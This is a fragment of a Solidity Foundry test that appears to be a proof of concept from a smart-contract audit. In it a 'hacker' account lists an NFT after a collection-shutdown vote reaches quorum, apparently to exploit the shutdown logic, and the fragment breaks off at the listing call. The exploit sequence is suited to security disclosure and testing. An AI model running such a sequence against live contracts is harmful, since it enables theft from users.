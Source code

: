 ```solidity

        // User2 approves CollectionTokens to the collectionShutdown contract to start a vote.
        CollectionToken(newCollectionToken).approve(address(collectionShutdown), CollectionToken(newCollectionToken).balanceOf(user2));


        // User2 calls the start() function
        collectionShutdown.start(address(erc721a));


        console.log("User2 CollectionToken Balance, AFTER start a votation", CollectionToken(newCollectionToken).balanceOf(user2));
        console.log("");



        // Check Params to calls execute() function.
        ICollectionShutdown.CollectionShutdownParams memory params = collectionShutdown.collectionParams(address(erc721a));

        console.log("shutdownVotes", params.shutdownVotes);
        console.log("quorumVotes", params.quorumVotes);
        console.log("canExecute", params.canExecute);
        console.log("availableClaim", params.availableClaim);

        vm.stopPrank();




        // Hacker sees that the quorum is reached, and decide to deposit the other token that he owns, and list it.
        vm.startPrank(hacker);

        // Approves token ID 10, to listing contract
        erc721a.approve(address(listings), 10);
        uint[] memory path3 = new uint[](1);
        path3[0] = 10;



        // Listings Paramenter
        IListings.Listing memory newListingsBaseParameter = listings.listings(address(erc721a), 10);
        newListingsBaseParameter.owner = payable(hacker);
        newListingsBaseParameter.duration = uint32(5 days);
        newListingsBaseParameter.created = uint40(block.timestamp);
        newListingsBaseParameter.floorMultiple = 10_00;


        // Listings Paramenter
        IListings.CreateListing memory listingsParams;
        listingsParams.collection = address(erc721a);
        listingsParams.tokenIds = path3;
        listingsParams.listing = newListingsBaseParameter;

        // Listings Paramenter
        IListings.CreateListing[] memory listingsParamsCorrect = new IListings.CreateListing[](1);
        listingsParamsCorrect[0] = listingsParams;


        // Hacker creates a Listing for the collection erc721a
        listings.createListings(listingsParamsCorrect);
```